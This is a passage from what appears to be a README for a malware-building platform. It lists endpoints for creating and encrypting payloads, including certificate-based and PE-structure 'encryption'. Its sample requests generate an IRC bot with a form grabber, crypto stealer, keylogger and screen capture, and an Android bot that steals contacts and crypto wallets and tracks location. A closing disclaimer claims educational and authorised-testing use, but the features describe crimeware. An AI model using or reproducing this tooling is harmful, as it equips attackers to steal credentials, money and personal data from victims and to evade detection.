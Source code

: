 ### **Advanced Features:**
- `POST /payload-create` - Create custom payloads
- `POST /payload-encrypt` - Encrypt payloads
- `POST /ev-encrypt` - EV certificate encryption
- `POST /advanced-encrypt` - Advanced encryption with PE structure

## 🔥 **Real-World Usage Examples**

### **IRC Bot with Full Features:**
```json
{
  "engineId": "irc-bot-generator",
  "action": "generateIRCBot",
  "params": {
    "botConfig": {
      "server": "irc.hackforums.net",
      "channel": "#crypto",
      "features": ["formGrabber", "cryptoStealer", "keylogger", "screenCapture"]
    }
  }
}
```

### **HTTP Bot with Mobile Features:**
```json
{
  "engineId": "http-bot-generator", 
  "action": "generateHTTPBot",
  "params": {
    "botConfig": {
      "platform": "android",
      "features": ["cryptoStealer", "contactsStealer", "locationTracking"]
    }
  }
}
```

## 🛡️ **Security & Compliance**

⚠️ **IMPORTANT:** This platform is designed for:
- ✅ **Educational purposes**
- ✅ **Security research**
- ✅ **Penetration testing**
- ✅ **Red team exercises**
- ✅ **Authorized testing only**

🚫 **NOT for:**
- ❌ **Unauthorized access**
- ❌ **Illegal activities**
- ❌ **Malicious purposes**
- ❌ **Criminal activities**
